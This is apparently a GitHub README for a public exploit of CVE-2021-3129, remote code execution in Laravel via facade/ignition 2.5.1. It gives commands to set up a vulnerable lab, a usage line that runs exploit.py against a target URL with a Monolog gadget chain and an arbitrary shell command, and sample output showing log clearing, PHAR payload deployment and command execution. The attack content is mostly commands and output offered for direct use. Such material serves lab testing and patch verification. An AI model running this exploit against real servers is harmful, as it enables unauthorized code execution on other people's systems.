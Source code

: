 # CVE-2021-3129_exploit
Exploit for CVE-2021-3129
## Lab setup:
```
$ git clone https://github.com/laravel/laravel.git
$ cd laravel
$ git checkout e849812
$ composer install
$ composer require facade/ignition==2.5.1
$ php artisan serve
```
## Usage:
```
$ git clone https://github.com/nth347/CVE-2021-3129_exploit.git
$ cd CVE-2021-3129_exploit
$ chmod +x exploit.py
$ ./exploit.py http://localhost:8000 Monolog/RCE1 id
```
## Example:
```
nth347@nth347:~$ ./exploit.py http://localhost:8000 Monolog/RCE1 "uname -a"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

Linux nth347 5.7.0-kali1-amd64 #1 SMP Debian 5.7.6-1kali2 (2020-07-01) x86_64 GNU/Linux

[i] Trying to clear logs
[+] Logs cleared
```
## Reference:
* [Ambionics disclosure](https://www.ambionics.io/blog/laravel-debug-rce)
* [CVE-2021-3129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3129)
